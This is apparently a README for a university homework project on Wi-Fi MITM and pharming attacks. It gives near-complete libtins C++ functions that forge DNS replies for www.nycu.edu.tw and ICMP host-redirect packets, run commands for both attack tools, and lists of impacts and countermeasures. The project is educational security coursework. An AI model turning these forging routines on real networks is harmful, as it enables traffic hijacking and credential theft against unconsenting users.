


# MITM and Pharming Attacks in Wi-Fi Networks - CSC Homework 2

## 專案概述 (Project Overview)

This project demonstrates **Man-in-the-Middle (MITM)** and **Pharming attacks** in Wi-Fi networks. The implementation includes two main attack vectors: **DNS spoofing** for pharming attacks and **ICMP redirect** for traffic redirection. These attacks exploit vulnerabilities in network protocols to redirect legitimate traffic to malicious destinations.

## 攻擊類型 (Attack Types)

### 1. DNS Spoofing Attack (DNS 欺騙攻擊)
- **目標**: 將合法域名解析重定向到惡意 IP 地址
- **實現**: `he110_pharm.cpp` - DNS 回應偽造
- **影響**: 用戶訪問偽造的網站，可能導致憑證竊取

### 2. ICMP Redirect Attack (ICMP 重定向攻擊)
- **目標**: 重定向受害者的網路流量到攻擊者控制的伺服器
- **實現**: `icmp_redirect.cpp` - ICMP 重定向封包偽造
- **影響**: 流量被重定向，可能導致中間人攻擊

## 檔案結構 (File Structure)

```
csc_hw2/
├── he110_pharm.cpp          # DNS 欺騙攻擊程式
├── icmp_redirect.cpp        # ICMP 重定向攻擊程式
├── makefile                 # 編譯設定檔
├── victim_config.sh         # 受害者環境設定
├── csc-project2-2025-v3.pdf # 專案需求文件
└── README.md               # 基本說明
```

## 攻擊流程圖 (Attack Flow Diagrams)

### DNS Spoofing Attack Flow


### ICMP Redirect Attack Flow


## 快速開始 (Quick Start)

### 編譯和設定
```bash
# 編譯所有程式
make all

# 設定受害者環境
./victim_config.sh
```

### DNS Spoofing Attack
```bash
# 基本使用
sudo ./he110_pharm

# 指定網路介面
sudo ./he110_pharm <interface_name>
```

### ICMP Redirect Attack
```bash
# 指定目標 IP 和網路介面
sudo ./icmp_redirect <target_ip> <interface_name>
```

### 受害者設定
```bash
# 啟用 ICMP 重定向接受
./victim_config.sh
```

## 程式碼分析 (Code Analysis)

### 1. DNS Spoofing Attack (`he110_pharm.cpp`)

#### 核心功能
```cpp
const string target_domain = "www.nycu.edu.tw";
const IPv4Address spoofed_ip("140.113.24.241");
```

**攻擊目標**: 將 `www.nycu.edu.tw` 解析到偽造的 IP 地址 `140.113.24.241`

#### 攻擊流程
1. **監聽 DNS 查詢**: 使用 Tins 庫監聽 UDP port 53 的 DNS 查詢
2. **域名匹配**: 檢查查詢的域名是否為目標域名
3. **偽造回應**: 建立偽造的 DNS 回應封包
4. **發送偽造回應**: 將偽造的回應發送給受害者

#### 關鍵函數
```cpp
bool spoof_dns_response(const EthernetII& eth, const IP& ip, const UDP& udp, const DNS& dns, const DNS::query& query) {
    // 建立偽造的 DNS 回應
    DNS spoofed_dns;
    spoofed_dns.id(dns.id());
    spoofed_dns.type(DNS::RESPONSE);
    spoofed_dns.recursion_desired(dns.recursion_desired());
    spoofed_dns.recursion_available(true);
    spoofed_dns.add_query(query);
    
    // 添加偽造的 A 記錄
    DNS::resource answer;
    answer.dname(target_domain);
    answer.query_type(DNS::A);
    answer.query_class(query.query_class());
    answer.ttl(300);
    answer.data(spoofed_ip.to_string());
    spoofed_dns.add_answer(answer);
    
    // 建立完整的回應封包
    EthernetII response_eth(eth.src_addr(), eth.dst_addr());
    IP response_ip(ip.src_addr(), ip.dst_addr());
    UDP response_udp(udp.sport(), udp.dport());
    
    auto packet = response_eth / response_ip / response_udp / spoofed_dns;
    sender.send(packet);
}
```

### 2. ICMP Redirect Attack (`icmp_redirect.cpp`)

#### 核心功能
- **網路掃描**: 掃描網段內的所有活躍設備
- **ARP 表讀取**: 從系統 ARP 表獲取設備資訊
- **ICMP 重定向**: 發送偽造的 ICMP 重定向封包

#### 攻擊流程
1. **網路發現**: 掃描網段內的所有 IP 地址
2. **設備列舉**: 從 ARP 表獲取活躍設備的 IP 和 MAC 地址
3. **目標選擇**: 讓用戶選擇受害者和網關
4. **重定向攻擊**: 發送 ICMP 重定向封包重定向流量

#### 關鍵函數
```cpp
void send_icmp_redirect(const std::string& iface_name,
                        const std::string& victim_ip_str,
                        const std::string& victim_mac_str,
                        const std::string& gateway_ip_str,
                        const IPv4Address& attacker_ip,
                        const HWAddress<6>& attacker_mac,
                        const std::string& target_ip_str) {
    
    // 建立偽造的內部 IP 封包
    IP inner_ip(target_ip, victim_ip);
    inner_ip.ttl(64);
    inner_ip.id(0);
    inner_ip.flags(IP::Flags(0));
    inner_ip.protocol(1);
    
    // 建立 ICMP Echo 回應作為負載
    ICMP echo(ICMP::ECHO_REPLY);
    echo.id(0);
    echo.sequence(0);
    
    // 序列化偽造的原始資料包
    IP inner_packet = inner_ip / echo;
    std::vector<uint8_t> inner_bytes = inner_packet.serialize();
    
    // 建立 ICMP 重定向訊息
    RawPDU inner_raw(inner_bytes);
    ICMP redirect(ICMP::REDIRECT);
    redirect.code(1);  // Code 1 = Host redirect
    redirect.gateway(attacker_ip);  // 重定向到攻擊者
    redirect.inner_pdu(inner_raw);
    
    // 包裝外層 IP 和 Ethernet
    IP ip_outer(victim_ip, gateway_ip);
    ip_outer.protocol(1);
    
    EthernetII eth(victim_mac, attacker_mac);
    eth.payload_type(EthernetII::IP);
    
    auto packet = eth / ip_outer / redirect;
    sender.send(packet, iface);
}
```

## 技術細節 (Technical Details)

### DNS Spoofing 技術
- **封包攔截**: 使用 Tins 庫監聽網路流量
- **DNS 解析**: 解析 DNS 查詢封包
- **回應偽造**: 建立包含偽造 A 記錄的 DNS 回應
- **封包重組**: 重建完整的網路封包

### ICMP Redirect 技術
- **網路掃描**: 使用 ping 掃描網段內所有 IP
- **ARP 表解析**: 從 `/proc/net/arp` 讀取 ARP 表
- **ICMP 封包構造**: 建立符合 RFC 792 的 ICMP 重定向封包
- **封包發送**: 使用原始 socket 發送封包

### 網路配置
- **IP 轉發**: 啟用系統 IP 轉發功能
- **重定向接受**: 受害者必須接受 ICMP 重定向
- **防火牆規則**: 設定 iptables 規則攔截 DNS 查詢

## 安全影響 (Security Implications)

### DNS Spoofing 影響
1. **網站偽造**: 用戶被重定向到偽造的網站
2. **憑證竊取**: 偽造網站可能竊取用戶憑證
3. **惡意軟體**: 可能下載惡意軟體
4. **資料竊取**: 敏感資料可能被竊取

### ICMP Redirect 影響
1. **流量劫持**: 所有流量被重定向到攻擊者
2. **中間人攻擊**: 攻擊者可以監聽和修改流量
3. **服務中斷**: 可能導致正常服務無法訪問
4. **資料洩露**: 敏感資料可能被竊取

## 防護措施 (Countermeasures)

### DNS Spoofing 防護
1. **DNSSEC**: 使用 DNS 安全擴展驗證 DNS 回應
2. **DNS over HTTPS (DoH)**: 使用加密的 DNS 查詢
3. **DNS over TLS (DoT)**: 使用 TLS 加密 DNS 查詢
4. **本地 DNS 快取**: 使用可信的本地 DNS 伺服器

### ICMP Redirect 防護
1. **禁用重定向**: 在系統中禁用 ICMP 重定向接受
2. **靜態路由**: 使用靜態路由表防止重定向
3. **網路監控**: 監控異常的 ICMP 重定向封包
4. **防火牆規則**: 阻擋可疑的 ICMP 重定向封包

### 一般防護措施
1. **網路分段**: 使用 VLAN 隔離網路
2. **入侵檢測**: 部署 IDS/IPS 系統
3. **流量監控**: 監控異常的網路流量
4. **用戶教育**: 教育用戶識別可疑的網路行為

## 法律聲明 (Legal Disclaimer)

⚠️ **重要警告**: 此專案僅供教育和研究目的使用。未經授權的網路攻擊是違法行為。使用者必須：

1. 只在自己的網路環境中測試
2. 獲得所有相關方的明確許可
3. 遵守當地法律法規
4. 不得用於惡意目的

## 環境需求 (Requirements)

- C++17 編譯器
- Tins 網路封包操作庫
- libnetfilter_queue 庫
- pthread 多執行緒庫
- Linux 系統
- Root 權限

## 故障排除 (Troubleshooting)

### 常見問題

1. **編譯錯誤**
   - 確保安裝了所有必要的開發庫
   - 檢查 Tins 庫版本兼容性

2. **權限不足**
   - 確保以 root 權限執行
   - 檢查網路介面權限

3. **封包發送失敗**
   - 檢查網路介面狀態
   - 驗證目標 IP 地址

4. **DNS 攔截失敗**
   - 檢查 iptables 規則
   - 確認網路介面設定

## 結論 (Conclusion)

此專案展示了 Wi-Fi 網路中 MITM 和 Pharming 攻擊的實現方法。這些攻擊利用網路協定的弱點，可能導致嚴重的安全問題。理解這些攻擊技術有助於：

1. 提高網路安全意識
2. 開發更好的防護機制
3. 進行有效的安全測試
4. 教育用戶安全最佳實踐

記住，知識本身是中性的，關鍵在於如何正確使用這些知識來保護而非破壞網路安全。

---

**詳細技術分析請參考**: [ATTACK_METHODS_ANALYSIS.md](./ATTACK_METHODS_ANALYSIS.md)
